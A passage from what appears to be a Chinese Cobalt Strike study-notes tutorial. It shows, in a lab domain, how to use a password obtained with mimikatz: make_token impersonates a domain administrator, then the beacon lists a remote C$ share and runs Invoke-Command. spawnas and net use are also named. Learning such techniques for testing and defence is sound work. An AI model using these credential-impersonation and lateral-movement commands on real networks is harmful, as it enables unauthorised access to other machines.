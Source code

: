### 凭证

1、使用 make_token 创建一个令牌

```powershell
make_token DOMAIN\user password
```

在运行命令之前，需要知道要获取令牌用户的密码，这里可以使用 mimikatz 进行获取，具体的方法可参考[《CS学习笔记 | 14、powerup提权的方法》](https://teamssix.com/year/200419-150600.html)这一节中的介绍。

这里还是和上文一样的环境，在一个 SYSTEM 会话下，获取 TEAMSSIX\administrator 账号令牌，使用 mimikatz 可以得知 TEAMSSIX\administrator 账号密码为 Test111!，接下来使用 `make_token` 命令。

```powershell
beacon> make_token TEAMSSIX\administrator Test111!
[*] Tasked beacon to create a token for TEAMSSIX\administrator
[+] host called home, sent: 53 bytes
[+] Impersonated NT AUTHORITY\SYSTEM

beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WIN-P2AASSD1AF1\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WIN-P2AASSD1AF1\C$ 的目录
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件      0 字节
               4 个目录 28,493,299,712 可用字节
               
beacon> powershell Invoke-Command -computer WIN-P2AASSD1AF1 -ScriptBlock {whoami}
[*] Tasked beacon to run: Invoke-Command -computer WIN-P2AASSD1AF1 -ScriptBlock {whoami}
[+] host called home, sent: 231 bytes
[+] received output:
teamssix\administrator
```

当密码输入错误时，执行上面的两个命令就会提示 `登录失败: 未知的用户名或错误密码。` 同样的使用 `rev2self` 可除去当前令牌，恢复原来的 SYSTEM 权限。

2、使用 spawn beacon 替代凭证

```powershell
spawnas DOMAIN\user password
```

3、在目标上建立账户

```powershell
net use \\host\C$/USER:DOMAIN\user password
```

这两种方法，在之前的笔记中都或多或少的提及过，这里不再过多赘述。
